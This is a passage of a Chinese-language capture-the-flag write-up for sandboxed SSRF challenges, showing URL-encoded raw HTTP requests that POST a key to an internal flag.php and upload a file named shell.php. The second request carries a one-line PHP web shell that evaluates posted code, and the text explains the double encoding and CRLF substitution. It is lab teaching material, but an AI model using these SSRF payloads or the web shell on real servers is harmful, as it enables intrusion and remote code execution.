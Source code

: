 填入key提交

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751706920954-97313d81-dd88-4251-805a-864d30795954.png)

URL二次编码，第一次URL编码后将`%0A`替换为`%0D0A`

```html
POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520challenge-a4e82c2602cbeef6.sandbox.ctfhub.com%253A10800%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64%253B%2520rv%253A140.0)%2520Gecko%252F20100101%2520Firefox%252F140.0%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252C*%252F*%253Bq%253D0.8%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.8%252Czh-TW%253Bq%253D0.7%252Czh-HK%253Bq%253D0.5%252Cen-US%253Bq%253D0.3%252Cen%253Bq%253D0.2%250D%250AAccept-Encoding%253A%2520gzip%252C%2520deflate%250D%250AContent-Type%253A%2520application%252Fx-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-a4e82c2602cbeef6.sandbox.ctfhub.com%253A10800%250D%250AConnection%253A%2520close%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-a4e82c2602cbeef6.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250APriority%253A%2520u%253D0%252C%2520i%250D%250A%250D%250Akey%253Df16bc01bbf8a2ebfca9d9f7a01b7947e
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751707117321-11c20e2a-62de-48ae-87a3-d60aef5a097e.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751707131665-e66d8467-ab49-4c5d-9457-b70d76eb5e56.png)

### 上传文件
![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751705985787-5863dc0c-a41c-4403-93a1-9520c83a4cf9.png)

添加submit，提交bp抓包

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751706042862-a81ae379-56ed-4cb0-9694-b0e17172e714.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751706410675-cf30f480-8384-4825-8b49-95581a20c0c7.png)

第一次URL编码，并将`%0A`替换为`%0D0A`

```html
POST%20%2Fflag.php%20HTTP%2F1.1%0D%0AHost%3A%20challenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%3A10800%0D%0AUser-Agent%3A%20Mozilla%2F5.0%20(Windows%20NT%2010.0%3B%20Win64%3B%20x64%3B%20rv%3A140.0)%20Gecko%2F20100101%20Firefox%2F140.0%0D%0AAccept%3A%20text%2Fhtml%2Capplication%2Fxhtml%2Bxml%2Capplication%2Fxml%3Bq%3D0.9%2C*%2F*%3Bq%3D0.8%0D%0AAccept-Language%3A%20zh-CN%2Czh%3Bq%3D0.8%2Czh-TW%3Bq%3D0.7%2Czh-HK%3Bq%3D0.5%2Cen-US%3Bq%3D0.3%2Cen%3Bq%3D0.2%0D%0AAccept-Encoding%3A%20gzip%2C%20deflate%0D%0AContent-Type%3A%20multipart%2Fform-data%3B%20boundary%3D----geckoformboundary51834e26d074966e704b418761d460d1%0D%0AContent-Length%3A%20266%0D%0AOrigin%3A%20http%3A%2F%2Fchallenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%3A10800%0D%0AConnection%3A%20close%0D%0AReferer%3A%20http%3A%2F%2Fchallenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%3A10800%2F%3Furl%3D127.0.0.1%2Fflag.php%0D%0AUpgrade-Insecure-Requests%3A%201%0D%0APriority%3A%20u%3D0%2C%20i%0D%0A%0D%0A------geckoformboundary51834e26d074966e704b418761d460d1%0D%0AContent-Disposition%3A%20form-data%3B%20name%3D%22file%22%3B%20filename%3D%22shell.php%22%0D%0AContent-Type%3A%20application%2Foctet-stream%0D%0A%0D%0A%3C%3Fphp%20echo%20123%3B%40eval(%24_POST%5B'code'%5D)%3B%3F%3E%0D%0A------geckoformboundary51834e26d074966e704b418761d460d1--
```

第二次URL编码
